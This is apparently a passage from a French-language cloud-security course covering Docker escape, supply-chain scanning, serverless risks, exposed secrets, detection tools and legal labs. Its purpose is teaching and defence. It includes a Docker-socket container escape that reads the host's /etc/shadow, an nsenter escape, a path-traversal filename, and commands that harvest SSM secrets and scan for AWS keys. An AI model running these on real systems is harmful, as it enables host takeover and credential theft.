Un `Dockerfile` est le fichier qui décrit la construction :

```dockerfile
FROM ubuntu:20.04
RUN apt-get update && apt-get install -y curl
COPY app.py /app/
ENV DB_PASSWORD=super-secret
CMD ["python", "/app/app.py"]
```

**Deux erreurs déjà présentes ici** : l'image de base non épinglée à une version précise (`ubuntu:20.04` a été remplacée) et un **secret dans l'environnement** (visible par `docker inspect`, `docker exec env`, et dans l'historique d'image).

#### Fonctionnement — le Docker socket, la faille de confiance

Le **Docker socket** (`/var/run/docker.sock`) est le canal de communication entre le client et le démon Docker. Le monter dans un conteneur, c'est donner à ce conteneur **le contrôle total du démon** — et donc de l'hôte :

```bash
# MAUVAISE pratique (jamais en prod) : monter le socket dans le conteneur
docker run -v /var/run/docker.sock:/var/run/docker.sock -it alpine /bin/sh

# Une fois dans le conteneur : on parle au démon de l'hôte
# 1. Lister les images de l'hôte
curl -s --unix-socket /var/run/docker.sock http://localhost/images/json
# 2. Créer un conteneur privilégié qui monte le système de fichiers de l'hôte
docker run -it --privileged -v /:/host alpine /bin/sh
# 3. On est "dans" l'hôte : on lit les fichiers
ls /host/etc/shadow
chroot /host
```

C'est le **container escape** classique : le conteneur « piégé » donne accès à l'hôte entier.

#### Fonctionnement — les autres techniques d'escape

| Technique | Condition | Résultat |
| --------- | --------- | -------- |
| Docker socket monté | `-v /var/run/docker.sock:/var/run/docker.sock` | Contrôle du démon → accès hôte |
| Pod/CONTAINER privilégié | `--privileged` | Beaucoup de capabilities (dont SYS_ADMIN) → montage /dev et échappement |
| Namespace hôte partagé | `--pid=host` | Voir les processus de l'hôte (`nsenter --target 1 --mount --uts --ipc --net --pid -- /bin/sh`) |
| Capability SYS_ADMIN | `--cap-add SYS_ADMIN` | Montage du système de fichiers hôte |
| Failles du runtime | CVE-2019-5736 (runc), CVE-2022-0492 (cgroups) | Escape direct |

#### Architecture — l'isolation vue comme un empilement

```
+------------------------------------------------------+
|  HÔTE (le vrai système Linux)                         |
|  /etc, /home, processus, kernel                       |
|  +--------------------------------------------------+ |
|  |  CONTENEUR (bac à sable)                          | |
|  |  namespaces + cgroups + seccomp                  | |
|  |  +--------------------------------------------+  | |
|  |  |  process (app)                             |  | |
|  |  +--------------------------------------------+  | |
|  +--------------------------------------------------+ |
+------------------------------------------------------+
  docker.sock monté dans le conteneur = pont direct
  vers le démon hôte = percer le bac à sable
```

#### Cas d'utilisation

- Audit d'images : `trivy image <image>` (section l), `grype`, scan dans le CI.
- Audit de configuration : `docker scan` remplacé par trivy ; vérifier le Dockerfile (pas de secrets, base épinglée, pas de privilèges).
- Pentest : sur un conteneur compromis, vérifier dans l'ordre : capabilities (`capsh --print`), socket Docker monté, namespaces partagés, puis tentative d'escape — uniquement en labo.

#### Exemple réel

Un serveur web tourne dans un conteneur qui a `/var/run/docker.sock` monté « pour les outils de monitoring ». Une faille RCE (exécution de code à distance) dans l'app permet d'exécuter des commandes dans le conteneur. 30 secondes plus tard, l'attaquant a créé un conteneur `--privileged -v /:/host` et lit `etc/shadow` de l'hôte. Le « simple conteneur web » est devenu la compromission du serveur complet.

#### Bonnes pratiques

- **Jamais de Docker socket monté** dans un conteneur de travail.
- Lancer les conteneurs **sans `--privileged`**, sans capabilities inutiles, en non-root (utilisateur dédié dans le Dockerfile).
- Ne jamais mettre de **secrets dans les images ni dans `ENV`** : utiliser des secrets runtime (Docker secrets, Vault, variables injectées au déploiement).
- Scanner les images (trivy/grype) à chaque build et les **épingler** (`FROM node:20-alpine@sha256:...`).
- Bloquer au runtime avec un durcisseur (seccomp/apparmor, Falco en détection).

#### Résumé

Docker = DVD (image) → système isolé (conteneur) sur le noyau Linux. Risques : images vulnérables, secrets embarqués, socket Docker monté, conteneurs privilégiés, failles runc. Escape = sortir du bac à sable vers l'hôte. Défense : pas de socket, pas de privilèges, secrets externes, scans.

---

### (l) La supply chain et les vulnérabilités de dépendances : SBOM, trivy, grype

#### Définition

La **supply chain logicielle** (chaîne d'approvisionnement) regroupe toutes les briques qui composent un logiciel : code source, bibliothèques, images de base, outils de build, registres de packages. Une attaque de supply chain consiste à introduire du mal dans **une des briques**, qui se propage à tous les logiciels qui l'utilisent. Le **SBOM** (Software Bill of Materials, « liste des ingrédients du logiciel ») est la liste formelle de ces briques : paquets, versions, licences, dépendances.

**Analogie.** Un SBOM, c'est la **liste des ingrédients** sur un paquet de biscuits : sans elle, impossible de savoir ce qu'on mange ni de rappeler un lot contaminé. La supply chain, c'est la biscuiterie : si un fournisseur de farine est empoisonné, tous les biscuits sont contaminés.

#### Pourquoi

Les attaques de supply chain sont devenues **la** tendance majeure (SolarWinds 2020, xz-utils 2024, packages npm/PyPI empoisonnés) : une seule brique compromise touche des millions de machines. Dans le cloud, chaque image Docker, chaque package de Lambda, chaque dépendance est une porte d'entrée potentielle. Le scan de dépendances (trivy, grype) et le SBOM sont désormais **exigés** par de nombreux clients et réglementations (US Executive Order 14028, normes européennes).

#### Historique

2018 : `event-stream` (npm) injecte du mal après piratage du mainteneur. 2020 : SolarWinds (build compromis). 2021 : `ua-parser-js`, `colors`/`faker` (npm), `node-ipc` (sabotage). 2022 : chaos sur plusieurs registres. 2024 : `xz-utils` (backdoor dans un utilitaire Linux, découvert presque par accident). En réponse : les outils d'analyse SBOM (`syft`), de scan (trivy, grype) et les standards CycloneDX/SPDX se généralisent.

#### Fonctionnement — scanner une image avec trivy

**trivy** (Aqua Security) scanne les images Docker, les systèmes de fichiers, les dépôts git et les configurations (IaC) pour trouver des vulnérabilités (CVE) et des mauvaises configurations :

```bash
# Scanner une image (rapport des CVE par sévérité)
trivy image nginx:1.20

# Scanner en ciblant les sévérités, et sortir en erreur si CVE critique
trivy image --severity CRITICAL,HIGH --exit-code 1 nginx:1.20

# Scanner le système de fichiers d'un projet
trivy fs .

# Scanner la configuration (Dockerfile, k8s, terraform)
trivy config .

# Ignorer les vulnérabilités non corrigées (utilisées pour CI)
trivy image --severity CRITICAL --ignore-unfixed nginx:1.20
```

**grype** (Anchore) est l'alternative équivalente, appréciée pour sa vitesse et son intégration :

```bash
grype nginx:latest
grype nginx:1.20 --only-severity critical --fail-on critical
```

#### Fonctionnement — générer et analyser un SBOM

**syft** (Anchore) génère le SBOM d'une image au format standard (CycloneDX ou SPDX) :

```bash
syft nginx:1.20 -o cyclonedx-json > sbom.json
# puis rescanner le SBOM pour vérifier les vulnérabilités sans télécharger l'image
grype sbom:sbom.json
trivy sbom sbom.json
```

Le SBOM permet aussi la **traçabilité** : quand une CVE sort sur une bibliothèque, on sait immédiatement quelles images/produits sont touchés (l'équivalent du rappel de lot).

#### Architecture



#### Cas d'utilisation

- **CI/CD** : scanner chaque build, bloquer s'il y a une CVE critique (`--exit-code 1`).
- **Audit** : scanner l'inventaire des images existantes, générer les SBOM pour la conformité.
- **Incident** : une CVE 0-day sur une bibliothèque → retrouver dans les SBOM les images concernées.

#### Exemple réel

`colors` et `faker` (npm, 2022) : le mainteneur a poussé des versions qui affichaient des messages anarchistes et cassaient les applications. Toutes les applications qui faisaient `npm install` non épinglé ont été touchées en une nuit. Une entreprise avec des SBOM et un scan de dépendances a pu identifier et figer les versions en quelques heures ; les autres ont débogué leurs images pendant des jours.

#### Bonnes pratiques

- Scanner **toutes** les images à chaque build (trivy/grype) et **bloquer** en CI si critique.
- **Épingler** les versions (`FROM node:20-alpine`, `package-lock.json`, `requirements.txt` épinglés) et vérifier les signatures (cosign).
- Générer un **SBOM** pour chaque image (syft) et le conserver.
- Utiliser des images de base minimales et maintenues (alpine/slim), mettre à jour régulièrement.
- Suivre les alertes CVE (NVD, GitHub Advisories) et intégrer le scan dans la politique de l'entreprise.

#### Résumé

Supply chain = les ingrédients du logiciel (bibliothèques, images, packages). SBOM = la liste des ingrédients. trivy/grype = le scanner de sécurité. Attaques réelles : SolarWinds, event-stream, xz-utils. Défense : scan en CI, épinglage des versions, SBOM, signatures.

---

### (m) Les fonctions serverless et leurs risques

#### Définition

**Serverless** (littéralement « sans serveur ») : le fournisseur exécute ton **code** (une fonction) à la demande, sans que tu aies à provisionner ni gérer de machine. Le produit star d'AWS est **Lambda** ; les équivalents sont **Azure Functions** et **Cloud Functions** (GCP). Tu payes à l'exécution ; l'échelle est gérée automatiquement.

**Analogie.** Le serverless, c'est le **traiteur à la demande** : tu donnes ta recette (le code), et à chaque commande, un cuisinier (le fournisseur) la prépare dans sa cuisine. Tu ne gères ni les cuisiniers, ni la cuisine, ni les congélateurs — mais si ta recette est mauvaise (secrets en clair, accès trop larges), le plat reste dangereux.

#### Pourquoi

Le serverless est partout (APIs, bots, traitements d'images, intégrations) parce qu'il est simple et économique. Mais il introduit des risques spécifiques que les développeurs sous-estiment : les **permissions** (le role d'exécution de la fonction), les **secrets** (variables d'environnement), les **dépendances** (souvent non scannées) et l'**injection d'événements** (des données contrôlées par l'attaquant entrent dans la fonction). Une fonction Lambda « qui fait juste une tâche » a souvent un role avec bien trop de droits.

#### Historique

AWS Lambda (2014) crée le serverless moderne ; Azure Functions (2016), Cloud Functions (2016) et d'autres suivent. Les failles de serverless ont été documentées par les chercheurs (PureSec, Datadog) : permissions trop larges, secret management faible, event injection. Les outils de scan serverless (checkov, cfn_nag, trivy config) et les scanners CSPM détectent ces mauvaises configs.

#### Fonctionnement — anatomie d'une fonction et de ses risques

```bash
# Lister les fonctions
aws lambda list-functions --query "Functions[*].[FunctionName,Runtime,Role]"

# Lire la configuration : variables d'environnement (souvent des secrets !)
aws lambda get-function-configuration --function-name ma-fonction --query "Environment.Variables"

# Récupérer le role d'exécution
aws iam get-role --role-name <role-de-la-fonction>
aws iam list-attached-role-policies --role-name <role>
```

| Risque serverless | Principe | Impact |
| ----------------- | -------- | ------ |
| **Role trop permissif** | Le role d'exécution a `s3:*`, `dynamodb:*`, `*:*` | Une seule fonction compromis = accès à tout le compte |
| **Secrets dans les variables d'environnement** | Mots de passe/API keys lisibles par `get-function-configuration` | Fuite si la fonction est compromise ou le code lu |
| **Dépendances vulnérables** | Packages (npm/PyPI) non scannés | CVE exploitables dans la fonction |
| **Event injection** | L'attaquant contrôle l'entrée (body JSON, S3 event, URL) et l'injection atteint le code | Command injection, path traversal, lecture de fichiers |
| **Déploiement non contrôlé** | Toute personne pouvant `lambda:UpdateFunctionCode` déploie son code | Backdoor dans la fonction de production |

#### Architecture



Le pentester examine toujours ces trois connexions : l'entrée (injection possible ?), le role (que peut-il faire ?), les variables (que contient-il ?).

#### Cas d'utilisation

- Audit : lister les fonctions, lire leurs variables d'environnement, inspecter leurs roles (Prowler a des checks `lambda_function_...`), scanner le code et les dépendances.
- Pentest : si une fonction est accessible, tester l'event injection ; si on a le code (dépôt, artefact), chercher secrets et permissions.

#### Exemple réel

Une fonction Lambda « redimensionne les images » reçoit les images uploadées par les utilisateurs dans un bucket S3. Son role d'exécution a été copié-collé depuis un exemple : `s3:*` sur **tous** les buckets. L'attaquant upload une image avec un nom de fichier contenant une injection (`../../etc/passwd`), ou découvre que le role permet de lire les buckets de sauvegarde. La fonction « inoffensive » devient la porte vers toutes les données.

#### Bonnes pratiques

- **Least privilege** pour les roles d'exécution : uniquement les actions nécessaires sur les ressources nécessaires (et jamais `*:*`).
- **Pas de secrets** dans les variables d'environnement : utiliser Secrets Manager / SSM Parameter Store / Key Vault / Secret Manager.
- Scanner le code et les dépendances des fonctions (trivy `fs`/`config`, syft, bandit pour Python).
- Valider et **sanitizer les entrées** (event injection), restreindre les déclencheurs (invoke policy).
- Protéger le code : `lambda:UpdateFunctionCode` limité, IaC versionné, reviews.

#### Résumé

Serverless = code exécuté à la demande (Lambda, Functions). Risques : role trop permissif, secrets dans l'env, dépendances vulnérables, event injection, code updatable. Défense : least privilege, gestionnaire de secrets, scans, validation des entrées.

---

### (n) Les secrets exposés : commits, .env, SSM, Vault, .git

#### Définition

Un **secret** est toute donnée qui donne accès : clé API, mot de passe, clé privée, jeton. Un secret est **exposé** quand il se retrouve là où il ne devrait pas : dans un dépôt git, un fichier `.env` poussé en ligne, une variable d'environnement d'image, un bucket public, un log, un commit supprimé (qui reste dans l'historique git !). Les gestionnaires de secrets **SSM Parameter Store** (AWS Systems Manager), **Secrets Manager** (AWS), **Key Vault** (Azure) et **Vault** (HashiCorp, on-premise/multi-cloud) existent pour éviter d'écrire ces secrets dans le code.

**Analogie.** Un secret dans le code, c'est un **code de porte écrit au feutre sur le mur de l'entrée** : tout le monde le voit, personne ne le change, et même si on repeint (on « retire » le commit), l'ancienne couche reste visible (l'historique git).

#### Pourquoi

Les secrets exposés sont la cause n°1 des compromissions de comptes cloud : une clé AWS (`AKIA…`) poussée sur GitHub public permet de **contrôler le compte** en quelques minutes. Les scanners de secrets (gitleaks, trufflehog, ggshield, git-secrets) sont devenus obligatoires dans les CI/CD. Et le pire : **supprimer un commit ne supprime rien** — les secrets restent dans l'historique et dans les forks.

#### Historique

Depuis les années 2010, des bots scannent GitHub en permanence pour trouver des clés AWS ; des brèches entières (Uber 2016, et de nombreuses affaires) ont commencé par un secret dans un dépôt. En réponse : les gestionnaires de secrets (Vault 2015, AWS Secrets Manager 2018), les scanners (gitleaks, trufflehog) et les protections (push protection de GitHub).

#### Fonctionnement — où les secrets se cachent

| Endroit | Comment ils y arrivent | Détection |
| ------- | ---------------------- | --------- |
| **Commits git** | `.env`, `config.json`, clé collée dans le code | `gitleaks detect --source .`, `git log -p` |
| **Historique git** | Commit contenant le secret, puis « supprimé » (il reste !) | `git log --all -p`, `git reflog` |
| **Fichiers `.env`** | Fichier de config locale poussé par erreur | Recherche GitHub : `filename:.env` |
| **Variables d'environnement d'images/containers** | `ENV SECRET=...` dans le Dockerfile | `docker inspect`, `history`, scan IaC |
| **Buckets publics** | Backup, dump de base, fichier de config | `aws s3 ls --no-sign-request` |
| **Logs** | `print(password)`, erreurs stacktraces | Recherche dans CloudTrail/CloudWatch |
| **SSM/Secrets Manager mal sécurisés** | Parameter non chiffré, politique trop large | `aws ssm get-parameters-by-path --path / --recursive --with-decryption` |

Le pattern d'une clé AWS : `AKIA` suivi de 16 caractères alphanumériques. Les scanners la détectent avec des regex comme `AKIA[0-9A-Z]{16}`.

#### Fonctionnement — les gestionnaires de secrets

```bash
# AWS SSM Parameter Store : stocker et lire un secret (avec décryptage si chiffré)
aws ssm put-parameter --name "/prod/db/password" --value "motdepasse" --type SecureString
aws ssm get-parameter --name "/prod/db/password" --with-decryption

# AWS Secrets Manager : gestion avec rotation
aws secretsmanager get-secret-value --secret-id /prod/api-key
```

La bonne pratique : le code **ne contient jamais** le secret, il le lit à l'exécution depuis le gestionnaire (SSM, Secrets Manager, Key Vault, Vault), avec une politique qui restreint la lecture aux seuls rôles concernés. Vault (HashiCorp) ajoute des secrets **dynamiques** et une rotation automatique.

#### Cas d'utilisation

- **Recon** : `gitleaks detect`, `trufflehog git https://github.com/org/repo`, recherche GitHub (`filename:.env`, `AKIA…`), puis test de la clé trouvée avec `aws sts get-caller-identity`.
- **Défense** : push protection GitHub, scanners en CI, gestionnaires de secrets, rotation, et **audit** (vérifier que les anciens secrets sont révoqués, pas seulement supprimés des fichiers).

#### Exemple réel

Un développeur pousse `config.json` contenant `"aws_access_key": "AKIA…"`. Un bot GitHub le détecte, teste la clé, et s'en sert pour miner du crypto ou exfiltrer le bucket S3. L'entreprise supprime le fichier du dépôt — trop tard : la clé est déjà récupérée et **toujours valide** jusqu'à rotation. La vraie réponse : **révoquer la clé immédiatement** (la supprimer dans IAM), puis supprimer l'historique (ou purger le dépôt) et mettre en place les protections.

#### Bonnes pratiques

- **Jamais de secret dans le code, l'image, l'env ou le commit** : gestionnaires de secrets obligatoires.
- Activer la **push protection** et les scanners (gitleaks/trufflehog) en CI.
- **Rotation** régulière et immédiate en cas de suspicion.
- Vérifier les buckets, les logs et les paramètres SSM lors des audits.
- Restreindre l'accès aux gestionnaires de secrets (least privilege + chiffrement).

#### Résumé

Secret exposé = compte compromis. Ils se cachent dans les commits (même supprimés !), les `.env`, les images, les buckets, les logs. Détection : gitleaks, trufflehog, recherche GitHub. Protection : gestionnaires (SSM, Secrets Manager, Key Vault, Vault), rotation, push protection. La règle absolue : un secret qui a fuité est un secret **révoqué**.

---

### (o) La détection et la défense : CloudTrail, GuardDuty, Sentinel, CSPM, SIEM

#### Définition

La **détection** cloud consiste à voir les attaques arriver, et la **défense** à réduire leur impact. Les briques : les **journaux d'API** (CloudTrail, Activity Log, Cloud Audit Logs), les **détecteurs de menaces** (GuardDuty, Microsoft Defender for Cloud, Security Command Center), les **outils de posture** (CSPM : Prowler, AWS Security Hub, Wiz, Prisma Cloud), et les **SIEM** (Security Information and Event Management, ex. Azure Sentinel, Splunk, Elastic) qui centralisent et corrèlent les alertes.

**Analogie.** Les journaux sont les **caméras** du bâtiment ; GuardDuty, le **garde qui surveille les caméras** ; le CSPM, l'**inspecteur mensuel** qui vérifie que chaque porte est fermée (posture) ; le SIEM, le **central de supervision** qui reçoit toutes les caméras et toutes les alarmes.

#### Pourquoi

Dans le cloud, tout est loggé par le fournisseur (chaque API call est un événement). Ne pas regarder ces journaux, c'est avoir des caméras partout et personne devant l'écran : la plupart des brèches restent des mois sans être détectées (capital : la métrique **time to detect**, temps de détection, est souvent de plusieurs mois). Détecter vite = limiter les dégâts. Et côté posture, les **misconfigurations** se détectent par **CSPM** (Cloud Security Posture Management) : des scanners automatisés qui comparent ta config à des référentiels (CIS, NIST).

#### Historique

CloudTrail (2013) est le journal d'API d'AWS. GuardDuty (2017) ajoute la détection de menaces (machine learning sur les logs). Azure a Security Center (2016) devenu **Microsoft Defender for Cloud** ; GCP a **Security Command Center**. Côté CSPM, Prowler (2016) puis des produits commerciaux (Prisma Cloud, Wiz 2020, Orca) ont industrialisé la vérification continue. Les SIEM (Splunk, Sentinel, Elastic) agrègent tout.

#### Fonctionnement — les briques

| Brique | Fournisseur | Rôle | Exemple de commande/outil |
| ------ | ----------- | ---- | ------------------------- |
| **Journal d'API** | CloudTrail (AWS) | Enregistre chaque API call (qui, quoi, quand, IP) | `aws cloudtrail lookup-events` |
| **Détection** | GuardDuty (AWS) | Alerte sur comportements anormaux (credential exfiltré, port scan, crypto-mining) | `aws guardduty list-findings` |
| **Posture (CSPM)** | Prowler / Security Hub / Wiz | Compare la config aux référentiels, signale les FAIL | `prowler aws --profile labo` |
| **SIEM** | Azure Sentinel, Splunk, Elastic | Centralise journaux cloud + autres sources, corrèle | requêtes KQL (Sentinel) |
| **Réponse** | SOC playbooks, SOAR | Automatise la réponse (isoler, révoquer) | playbooks Defender |

Exemples de commandes de détection :

```bash
# Qui a créé une clé d'accès récemment ?
aws cloudtrail lookup-events --lookup-attributes AttributeKey=EventName,AttributeValue=CreateAccessKey

# Lister les findings GuardDuty (les alarmes)
aws guardduty list-detectors
aws guardduty list-findings --detector-id <id>

# Qui a appelé quelles API depuis une IP suspecte ?
aws cloudtrail lookup-events --lookup-attributes AttributeKey=SourceIpAddress,AttributeValue=1.2.3.4
```

#### Architecture



#### Cas d'utilisation

- **Réponse à incident** : après une suspicion, `cloudtrail lookup-events` pour reconstituer la timeline exacte de l'attaquant.
- **Détection continue** : GuardDuty + SIEM, alertes en temps réel.
- **Audit de posture** : Prowler en planification (cron) ou Security Hub/Defender for Cloud pour un rapport continu.
- **Conformité** : les rapports CIS/NIST générés par les CSPM.

#### Exemple réel

Une entreprise active GuardDuty. Une nuit, une clé AWS d'un développeur est utilisée depuis une IP étrangère pour lancer des instances de crypto-mining. GuardDuty émet un finding « CryptoCurrency:EC2/BitcoinTool.B!DNS ». Le SIEM envoie l'alerte, le SOC isole l'instance et **révoque la clé** en 15 minutes. Sans détection, la facture AWS et les instances illégitimes auraient tourné des jours.

#### Bonnes pratiques

- Activer **CloudTrail dans toutes les régions** dès la création du compte, avec les logs dans un bucket protégé (et GuardDuty).
- Mettre en place un **CSPM** (Prowler en continu, ou commercial) et traiter les FAIL critiques d'abord.
- Centraliser dans un **SIEM** et définir des alertes (nouvelle clé, IP nouvelle, accès S3 anormal, crypto-mining).
- Définir des **playbooks de réponse** (qui fait quoi en cas d'alerte) et tester (tabletop exercises).
- Protéger les journaux eux-mêmes (versioning, chiffrement, accès limité) : un attaquant qui efface les logs est invisible.

#### Résumé

Défense cloud = journaux (CloudTrail) + détection (GuardDuty/Defender/SCC) + posture (CSPM/Prowler) + centralisation (SIEM) + réponse (SOC/playbooks). Un bon programme de sécurité cloud se mesure au temps de détection et à la couverture des audits automatiques.

---

### (p) Les labos d'entraînement cloud légaux

#### Définition

Les **labos cloud** sont des environnements volontairement vulnérables, hébergés par des éditeurs de sécurité ou sur ton propre compte AWS, **expressément conçus pour l'entraînement** : Flaws.cloud, Flaws2.cloud, CloudGoat, et les salles TryHackMe. On y applique les techniques d'attaque cloud **sans risque légal**, car le propriétaire t'y autorise explicitement (le « scope » est donné).

**Analogie.** Ce sont les **salles d'escrime** : des rings matelassés où on apprend à frapper sans blesser personne, avant de penser à un vrai combat. Le ring (le labo) définit les règles ; l'entraînement y est légal et même encouragé.

#### Pourquoi

Le cloud coûte de l'argent et les vrais comptes sont hors limites : impossible de « scanner » un compte de production même avec de bonnes intentions. Les labos donnent un terrain réaliste (vrais services AWS, vraies failles) à coût nul ou faible, avec des corrections documentées. C'est aussi là que se forment les pentesters cloud : les scénarios CloudGoat sont calqués sur les techniques réelles documentées (SSRF, escalade IAM).

#### Historique

**Flaws.cloud** (2017) par Scott Piper (Summit Route) : une série de niveaux sur de vrais buckets S3 publics, suivie de **Flaws2.cloud** (versions plus avancées). **CloudGoat** (Rhino Security Labs, 2018) : des scénarios déployés par script dans ton propre compte AWS, chacun avec une faille précise (S3, SSRF, escalade IAM). **GOAD** (Game of Active Directory, 2020+) est plus orienté AD (niveau 9) mais sert de complément on-premise. **TryHackMe** propose un parcours « Cloud » avec des salles guidées sur AWS/Azure/K8s.

#### Fonctionnement

| Labo | Fournisseur | Principe | Coût | Pour qui |
| ---- | ----------- | -------- | ---- | -------- |
| **Flaws.cloud** | AWS (public) | Suite de niveaux sur de vrais buckets S3 : chaque niveau t'apprend une misconfiguration | Gratuit | Débutant cloud |
| **Flaws2.cloud** | AWS (public) | Suite avancée (Lambda, assumer des roles, EC2, CloudFront) | Gratuit | Intermédiaire |
| **CloudGoat** | Ton compte AWS | Scénarios déployés par script (`./cloudgoat.py create <scenario>`), chacun = une technique | Ton compte (frais AWS minimes) | Intermédiaire/avancé |
| **TryHackMe Cloud** | En ligne | Salles guidées pas à pas (AWS, Azure, K8s, cloud pentest) | Freemium | Débutant/moyen |
| **GOAD** | Locale (VMs) | Labo Active Directory complet, complément on-premise | Gratuit (matériel) | Red team / AD |

Exemple de déploiement CloudGoat (dans ton compte sandbox) :

```bash
git clone https://github.com/RhinoSecurityLabs/cloudgoat
cd cloudgoat
python3 cloudgoat.py create iam_privesc_by_rollback   # déploie le scénario
python3 cloudgoat.py start iam_privesc_by_rollback    # affiche les credentials fournis
python3 cloudgoat.py destroy iam_privesc_by_rollback  # nettoie tout
```

#### Cas d'utilisation

- S'entraîner aux misconfigurations S3 (Flaws.cloud niveaux 1-2).
- S'entraîner au SSRF vers métadonnées (Flaws.cloud niveau 3, CloudGoat `ec2_ssrf`).
- S'entraîner à l'escalade IAM (CloudGoat `iam_privesc_*`).
- Auditer un cluster local (minikube) avec kube-hunter et kubectl.
- Suivre un parcours guidé (TryHackMe) pour la méthode.

#### Exemple réel

Flaws.cloud niveau 1 : tu ouvres la page `http://flaws.cloud/`, l'image est hébergée sur S3. Tu listes le bucket `aws s3 ls s3://flaws.cloud/ --no-sign-request` et tu découvres un objet `secret-xxx.html` qui pointe vers le niveau 2. Tu viens de faire ton premier « bucket listing » légal, sur une cible qui t'y autorise.

#### Bonnes pratiques

- Utiliser un **compte AWS sandbox dédié** pour CloudGoat (jamais le compte principal), et `destroy` après chaque scénario pour éviter les frais.
- Suivre les niveaux dans l'ordre : les labos sont progressifs.
- Toujours lire l'énoncé : chaque labo définit son **scope** et son objectif.
- Écrire les solutions (write-ups) pour fixer les techniques.
- Combiner labos cloud (AWS) et labo AD (GOAD) pour un profil complet.

#### Résumé

Labos légaux = Flaws.cloud/Flaws2 (S3 public), CloudGoat (SSRF, IAM), TryHackMe Cloud (guidé), GOAD (AD). Ils déploient de vraies failles dans des comptes sandbox dédiés. Règle d'or : scope explicite, compte dédié, nettoyage après usage (`destroy`).

---

## Visualisation

> ⚠️ **Légal** — Les schémas ci-dessous illustrent des architectures et des attaques. Ils servent à comprendre ; rien ici ne doit être reproduit sur un environnement réel sans autorisation.

### Schéma 1 — Architecture AWS de base



**Lecture** : Internet n'atteint que le Load Balancer (port 443). Les EC2 web, dans des subnets publics, parlent à la base RDS (subnet privé), au bucket S3 et aux Lambdas. Tout ce qui se passe (API calls) est enregistré par CloudTrail. Un SSRF sur une EC2 peut atteindre les métadonnées de l'instance et voler son role IAM.

### Schéma 2 — Modèle de responsabilité partagée



| Couche de sécurité | Fournisseur | Client |
| ------------------ | :---------: | :----: |
| Sécurité physique | ✅ | — |
| Hyperviseur / serveurs | ✅ | — |
| Réseau de base du cloud | ✅ | — |
| OS d'une machine IaaS | — | ✅ |
